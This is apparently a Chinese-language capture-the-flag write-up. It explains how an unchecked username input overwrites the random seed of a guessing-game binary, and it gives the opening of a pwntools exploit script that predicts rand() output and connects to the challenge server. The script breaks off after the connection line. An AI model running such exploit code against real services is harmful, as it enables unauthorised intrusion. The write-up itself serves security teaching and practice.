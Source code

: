 有个相似的题目 [https://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/](https://www.securifera.com/blog/2015/09/09/mmactf-2015-rock-paper-scissors-rps/)

![](/media/14630355493646/14637168641692.jpg)

分析代码，程序先用`time(0)`作为随机种子，然后需要猜测每次生成的随机数，如果连续猜对100次，就能得到flag。

![](/media/14630355493646/14637166964214.jpg)

仔细看代码，随机种子在初始化之后，并不是马上就执行`srand(seed)`的，而是等待用户输入用户名之后才执行的，而对用户名却没有长度限制，那么我们可以输入一定长度的`name`来覆盖程序生成的`seed`。因为`rand()`本身是一个伪随机函数，当每次的`seed`的相同时，生成的随机数也是一样的。

上脚本:

```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
from pwn import *
from ctypes import *


libc = CDLL("libc.so.6")
libc.srand(0x01010101)


def get_next_answer():
    seed = libc.rand()
    libc.srand(seed)
    n = libc.rand() % 0x1869F + 1
    return n

r = remote('101.200.187.112', 9001)
```